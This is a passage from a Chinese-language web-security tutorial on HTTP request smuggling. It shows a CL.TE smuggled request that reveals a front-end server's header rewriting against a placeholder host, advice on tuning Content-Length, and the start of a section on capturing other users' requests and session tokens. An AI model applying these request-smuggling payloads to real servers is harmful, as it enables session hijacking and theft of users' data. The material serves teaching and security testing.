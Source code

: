 响应内容包括：
```
<input id="email" value="wiener@normal-user.net" type="text">
```

此时，你可以使用以下请求走私攻击来揭示前端服务器（转发服务）对请求的重写：

<code>
    <span style="color:blue">
        POST / HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Content-Length: 130<br>
        Transfer-Encoding: chunked<br>
        <br>
        0<br>
    </span>
    <br>
    <span style="color:orange">
        POST /login HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Content-Type: application/x-www-form-urlencoded<br>
        Content-Length: 100<br>
        <br>
        email=</span><span style="color:green">POST /login HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        ...
    </span>
</code>

前端服务器（转发服务）将会重写请求以添加标头，然后后端服务器将处理走私请求，并将第二个请求当作 email 参数的值，且在响应中反映出来：
```
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

注意：由于最后的请求正在重写，你不知道它需要多长时间结束。走私请求中的 `Content-Length` 头的值将决定后端服务器处理请求的时间。如果将此值设置得太短，则只会收到部分重写请求；如果设置得太长，后端服务器将会等待超时。当然，解决方案是猜测一个比提交的请求稍大一点的初始值，然后逐渐增大该值以检索更多信息，直到获得感兴趣的所有内容。

一旦了解了转发服务器如何重写请求，就可以对走私的请求进行必要的调整，以确保后端服务器以预期的方式对其进行处理。


## 捕获其他用户的请求

如果应用程序包含存储和检索文本数据的功能，那么可以使用 HTTP 请求走私去捕获其他用户请求的内容。这些内容可能包括会话令牌（捕获后可以进行会话劫持攻击），或其他用户提交的敏感数据。被攻击的功能通常有评论、电子邮件、个人资料、显示昵称等等。

要进行攻击，您需要走私一个将数据提交到存储功能的请求，其中包含该数据的参数位于请求的最后。后端服务器处理的下一个请求将追加到走私请求后，结果将存储另一个用户的原始请求。
